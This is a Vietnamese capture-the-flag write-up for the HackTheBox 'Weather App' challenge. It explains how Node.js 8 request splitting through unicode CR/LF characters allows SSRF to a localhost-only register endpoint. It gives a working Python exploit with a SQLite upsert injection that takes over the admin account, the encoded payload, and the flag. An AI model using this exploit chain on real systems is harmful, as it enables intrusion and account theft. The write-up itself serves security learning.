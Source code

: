 # HACKTHEBOX - WEB: Weather App

## Overview

1. Website báo thời tiết, từ `/api/weather` nhận tham số `endpoint`, `city`, `country` rồi trả về nhiệt độ, mây mưa các thứ.

2. Challenge cho source code

## CODE REVIEW!!

`routes/index.js`:
```js
// ...........
router.get('/register', (req, res) => {
    return res.sendFile(path.resolve('views/register.html'));
});

router.post('/register', (req, res) => {

    // console.log('\n\n/register\n\n'); // debug
    if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
        return res.status(401).end();
    }

    let { username, password } = req.body;

    if (username && password) {
        return db.register(username, password)
            .then(()  => res.send(response('Successfully registered')))
            .catch(() => res.send(response('Something went wrong')));
    }

    return res.send(response('Missing parameters'));
});

router.get('/login', (req, res) => {
    return res.sendFile(path.resolve('views/login.html'));
});

router.post('/login', (req, res) => {
    let { username, password } = req.body;

    if (username && password) {
        return db.isAdmin(username, password)
            .then(admin => {
                if (admin) return res.send(fs.readFileSync('/app/flag').toString());
                return res.send(response('You are not admin'));
            })
            .catch(() => res.send(response('Something went wrong')));
    }
    
    return re.send(response('Missing parameters'));
});

router.post('/api/weather', (req, res) => {
    let { endpoint, city, country } = req.body;

    if (endpoint && city && country) {
        return WeatherHelper.getWeather(res, endpoint, city, country);
    }

    return res.send(response('Missing parameters'));
});
```



`helper/WeatherHelper.js`:
```js
const HttpHelper = require('../helpers/HttpHelper');

module.exports = {
    async getWeather(res, endpoint, city, country) {

        // *.openweathermap.org is out of scope
        let apiKey = '10a62430af617a949055a46fa6dec32f';
        let weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`); 
        console.log(`\nhttp://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`); // debug

        if (weatherData.name) {
// .....................................
```

`package.json`:
```json
{
    "name": "weather-app",
    "version": "1.0.0",
    "description": "",
    "main": "index.js",
    "nodeVersion": "v8.12.0",
    "scripts": {
        "start": "node index.js"
    },
    "keywords": [],
    "authors": [
        "makelaris",
        "makelarisjr"
    ],
    "dependencies": {
        "body-parser": "^1.19.0",
        "express": "^4.17.1",
        "sqlite-async": "^1.1.1"
    }
}
```

Endpoint `/register` dính SQLi nhưng endpoint này chỉ có thể truy cập từ `locahost`, phần `http.get` có khả năng dính `HTTP Request Splitting`. Hướng khai thác khá rõ ràng, `SSRF` đến endpoint `/register` thực hiện SQLi cướp tài khoản admin rồi login để lấy flag

**Nghiên cứu**: Nodejs version `8.x` and `6.x` có khả năng dính lỗi `HTTP Request Splitting`. Thư viện `http` của nodejs cũng có khả năng chống SSRF nếu url có chứa các protocol characters và nó sẽ escape bằng cách `percent-escaped`. Tuy nhiên:

Although users of the http module will typically specify the request path as a string, Node.js must ultimately output the request as raw bytes(phải output ra raw byte tức phải convert). JavaScript has unicode strings, so converting them into bytes means selecting and applying an appropriate unicode encoding. For requests that do not include a body, Node.js defaults to using "latin1"(mặc định convert sang latin1), a single-byte encoding that cannot represent high-numbered unicode characters such as the 🐶 emoji. Such characters are instead truncated to just their lowest byte of their internal JavaScript representation

```
> 'http://example.com/\u{010D}\u{010A}/test'
http://example.com/čĊ/test
```
When Node.js version 8 or lower makes a GET request to this URL, it doesn't escape them because they're not HTTP control characters:

But when the resulting string is encoded as latin1 to write it out to the wire, these characters get truncated into the bytes for "\r" and "\n" respectively:

```
> Buffer.from('http://example.com/\u{010D}\u{010A}/test', 'latin1').toString()
'http://example.com/\r\n/test'
```
Thus, by including carefully-selected unicode characters in the request path, an attacker could trick Node.js into writing HTTP protocol control characters out to the wire. The behaviour has been fixed in the recent Node.js 10 release.

**Bug report**: https://hackerone.com/reports/409943

**Explaination**: https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/

Build python script đấm nó thôi:
```python
import requests
import urllib.parse


url = 'http://157.245.46.136:31900/'

sqli = "username={}&password={}".format(urllib.parse.quote_plus("admin', '1') ON CONFLICT(username) DO UPDATE SET password = '1';-- -"), "1")

payload = f'127.0.0.1:80/r/n/r/nPOST /register HTTP/1.1/r/nHost: 127.0.0.1/r/nContent-Type: application/x-www-form-urlencoded/r/nContent-Length: {len(sqli)}/r/n/r/n{sqli}/r/n/r/nGET /param='

payload = payload.replace('/r/n', '\u010d\u010a')
payload = payload.replace(' ', '\u0120')
print(payload)

data = {
    'endpoint': payload,
    'city': 'hanoi',
    'country': ' vietnam'
}

r = requests.post(url+'api/weather', data=data)

print(r.text)
```
Host debug tại local, khi build payload lưu ý:

1. Request đầu cần host lẫn port để thành 1 valid request.
2. Với request thứ 2, payload SQLi cần urlencode nên không thể thiếu `Content-Type`, POST method nên cần `Content-Length`.
3. Kết thúc main request cần end gói request này bằn `\r\n\rn` và đệm tiếp 1 request cuối để valid.
4. Vì SQLite không có `ON DUPLICATE KEY UPDATE <key>=<value>;` nên ta dùng `ON CONFLIC(<key>) DO UPDATE SET <key>=<value>;`.

**Duplicate SQLite**: https://stackoverflow.com/questions/2717590/sqlite-insert-on-duplicate-key-update-upsert

`encoded payload`:
```
127.0.0.1:80čĊčĊPOSTĠ/registerĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊContent-Type:Ġapplication/x-www-form-urlencodedčĊContent-Length:Ġ110čĊčĊusername=admin%27%2C+%271%27%29+ON+CONFLICT%28username%29+DO+UPDATE+SET+password+%3D+%271%27%3B--+-&password=1čĊčĊGETĠ/param=
```

**flag**: `HTB{w3lc0m3_t0_th3_p1p3_dr34m}`
